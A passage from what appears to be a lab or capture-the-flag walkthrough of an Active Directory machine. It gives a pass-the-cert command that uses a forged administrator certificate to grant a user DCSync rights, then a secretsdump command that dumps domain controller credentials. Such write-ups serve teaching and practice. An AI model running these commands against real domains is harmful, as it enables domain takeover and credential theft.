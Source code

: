 Perform the pass-the-cert attack using the forged administrator certificate and private key to give sccadmin DCSYNC rights.
`python3 passthecert.py -action modify_user -crt admin.crt -key admin.key -domain push.vl -dc-ip 10.10.221.197 -target sccadmin -elevate`
![](https://photos.squarezero.dev/file/abir-images/push/29.png)

Finally, use SCCADMIN to dump the credentials from DC01.
`secretsdump.py PUSH/SCCADMIN@10.10.221.197`
![](https://photos.squarezero.dev/file/abir-images/push/30.png)